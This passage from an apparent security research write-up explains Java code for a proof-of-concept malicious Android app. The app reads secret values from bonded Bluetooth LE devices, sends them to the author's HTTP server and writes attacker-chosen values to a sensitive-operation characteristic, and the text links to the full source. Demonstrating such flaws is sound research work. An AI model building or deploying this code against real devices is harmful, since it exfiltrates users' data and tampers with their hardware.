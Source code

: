 The second one will be called after discovering services. This method checks if a device has the service we are looking for. If the service exists, it does the same for the sensitive data provider characteristics. If the characteristic exists as well, it initiates reading sensitive data. *read* and *discover* are fields used to prevent method execution more than once.

{% highlight java %}
@Override
public void onCharacteristicRead(BluetoothGatt gatt, BluetoothGattCharacteristic characteristic, int status) {
    sendToServer("Read: " + new String(characteristic.getValue()));
    BluetoothGattCharacteristic operation = characteristic.getService().getCharacteristic(SECRET_OPERATION);
    if (operation != null) {
        final String maliciousValue = "MaliciousParam" + new SecureRandom().nextInt();
        operation.setValue(maliciousValue);
        gatt.writeCharacteristic(operation);
        sendToServer("Written: " + maliciousValue);
    }
}
{% endhighlight %}

The last one is called when process finished passing read data. The code sends it to our HTTP server. Then it checks for sensitive operation characteristic. If this characteristic exists, a random value is generated which will be written to the characteristic and sent to our HTTP server.

Now let's move on to the main activity to run the service.

{% highlight java %}
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent i = new Intent(this, MyService.class);
        startService(i);
    }
}
{% endhighlight %}

Full code of the application is available [here](https://github.com/LogicalTrust/BluetoothSomeApp).

Summarizing all operations of our malicious application:
1. Start a background service (at this moment the app can be minimized)
2. Get bonded devices
3. Send device name and address to the server
4. Read secret value and send it back to the server
5. Write a random value and also send it back to our server
6. Go to step 2
